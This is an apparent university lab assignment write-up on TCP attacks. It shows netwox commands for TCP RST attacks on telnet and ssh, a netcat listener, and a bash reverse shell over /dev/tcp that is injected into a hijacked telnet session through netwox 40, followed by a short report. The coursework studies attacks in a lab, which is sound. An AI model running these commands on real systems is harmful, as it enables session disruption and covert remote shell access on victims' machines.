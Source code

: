 ```yaml
---
id: A5
description: and assignments
title: TCP attacks
tags:
  - sfwr4c03
  - assignment
modified: 2025-04-10 04:26:26 GMT-04:00
---
```


## TCP RST Attacks on `telnet` and `ssh`

leg IP: `10.0.0.2`, vic IP: `10.0.0.3`

The `netwox` commands are as follow:

```bash
netwox 78 -d eth0 --filter "host 10.0.0.2 and host 10.0.0.3 and port 23"
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-terminal.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker.webp]]

This is  for SSH

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-wireshark.webp]]

## TCP Session Hijacking

1. The following is the captured image on attacker node:

```bash
netcat -l 9090 -nv
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-tcp-hijacking.webp]]

The victim node then perform `bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reverse-vic-node.webp]]

The attacker node now completes the reverse shell process, as shown through `ifconfig`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reversed-shell-complete-att.webp]]

2. `netwox` command:

```bash
netwox 40 --ip4-src 10.0.0.2 -m 10.0.0.3 -o 58438 -p 23 -q 2811481894 -r 2489318395 -z -H "0d0a'/bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1'0d0a" 
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attack-node-cmd-reverse.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/new-wireshark.webp]]

## report

Based on the results observed from the network penetration tests, both attacks achieved their intended outcomes. The initial assault, conducted with `netwox 78`  effectively terminated the connection between nodes 'leg' and 'vic' as soon as the command was launched. If the disruption persisted, 'leg' was rendered unable to re-establish a link to 'vic', which receiving only a "connection closed by foreign host" message in response.  This situation demonstrates how an attacker could block a user's access to a server without much effort. 

Similarly, the second offensive strategy utilizing `netwox 40` successful in enabling the stealthy execution of commands on 'vic', without leaving any trace of the intrusion. This capability is particularly alarming as it allows an attacker to secretly harvest data or execute harmful activities on a user's machine, where it would ultimately be without their awareness.